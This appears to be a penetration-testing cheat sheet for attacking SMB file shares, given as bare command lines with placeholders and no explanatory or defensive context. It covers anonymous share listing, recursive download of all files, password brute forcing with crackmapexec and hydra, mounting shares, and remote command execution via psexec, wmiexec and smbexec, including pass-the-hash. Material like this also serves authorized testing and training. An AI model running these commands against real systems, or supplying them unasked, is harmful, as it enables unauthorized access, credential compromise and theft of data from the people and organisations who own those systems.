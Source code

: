 
**SMB Client Operations**

    smbclient --no-pass -L //<ip>
    smbclient -L //<ip> -U [user]
    smbclient //<IP>/<SHARE>
    smbclient -N //<IP>/<SHARE>
    smbclient //<IP>/<SHARE> -U <USER> -c "prompt OFF;recurse ON;mget *" # Change the timeout to download big files
    
    # Change the timeout to download big files
    help timeout
    timeout 100
    
    # Other commands
    prompt off
    recurse on
    mget *
    

**Brute Force Credentials**

    crackmapexec smb <IP> -u <USERS_LIST> -p <PASSWORDS_LIST>
    hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> smb://<IP> -u -vV
    

**Mounting Shares**

    # Mounts SMB shares to a local directory for further access and manipulation.
    mkdir /tmp/share
    sudo mount -t cifs //<IP>/<SHARE> /tmp/share
    sudo mount -t cifs -o &#39;username=<USER>,password=<PASSWORD>&#39; //<IP>/<SHARE> /tmp/share
    

**Execute Remote Commands**

    # PsExec
    psexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>
    psexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>
    
    # WMIexec
    wmiexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>
    wmiexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>
    
    # SMBexec
    smbexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>
    smbexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>
    